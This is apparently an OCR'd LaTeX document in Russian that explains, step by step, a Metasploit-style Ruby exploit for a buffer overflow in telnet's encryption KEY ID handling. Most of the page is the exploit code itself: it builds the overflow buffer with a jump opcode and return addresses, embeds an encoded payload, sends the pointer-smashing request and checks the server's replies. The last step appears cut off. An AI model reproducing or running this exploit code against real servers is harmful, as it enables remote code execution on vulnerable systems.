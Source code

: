 \documentclass[10pt,a4paper]{report}
\begin{document}
			Скрипт работает по следующему алгоритму:
			\begin{enumerate}
				\item Сначала происходит первоначальная инициализация и подготовка данных для шифрования ключа
				\begin{lstlisting}
   connect
    banner_sanitized = Rex::Text.to_hex_ascii(banner.to_s)
    vprint_status(banner_sanitized)

    enc_init      = "\xff\xfa\x26\x00\x01\x01\x12\x13\x14\x15\x16\x17\x18\x19\xff\xf0"
    enc_keyid     = "\xff\xfa\x26\x07"
    end_suboption = "\xff\xf0"

    penc = payload.encoded.gsub("\xff", "\xff\xff")

    key_id = Rex::Text.rand_text_alphanumeric(400)

    key_id[ 0, 2] = "\xeb\x76"
    key_id[72, 4] = [ t['Ret'] - 20 ].pack("V")
    key_id[76, 4] = [ t['Ret'] ].pack("V")

    # Some of these bytes can get mangled, jump over them
    key_id[80,40]  = "\x41" * 40
				\end{lstlisting}
				
				\item Добавляется полезная нагрузка, создается команда KEY ID и инициилизируется шифрования.
				\begin{lstlisting}
# Insert the real payload
    key_id[120, penc.length] = penc

    # Create the Key ID command
    sploit = enc_keyid + key_id + end_suboption

    # Initiate encryption
    sock.put(enc_init)
				\end{lstlisting}
				
				\item Ожидается успешный ответ от сервера
				\begin{lstlisting}
 # Wait for a successful response
    loop do
      data = sock.get_once(-1, 5) rescue nil
      if not data
        fail_with(Failure::Unknown, "This system does not support encryption")
      end
      break if data.index("\xff\xfa\x26\x02\x01")
    end
				\end{lstlisting}
				
				\item Удостовериваемся что сервер ответил на 1ый запрос
	\begin{lstlisting}
# The first request smashes the pointer
    print_status("Sending first payload")
    sock.put(sploit)

    # Make sure the server replied to the first request
    data = sock.get_once(-1, 5)
    unless data
      print_status("Server did not respond to first payload")
      return
    end
			\end{lstlisting}
			\item Затем производится небольшая задержка и получения второго ответа с указателем, который был вызван и отключение от сервера
			\begin{lstlisting}
			# Some delay between each request seems necessary in some cases
    ::IO.select(nil, nil, nil, 0.5)


\end{lstlisting}
\end{enumerate}
\end{document}
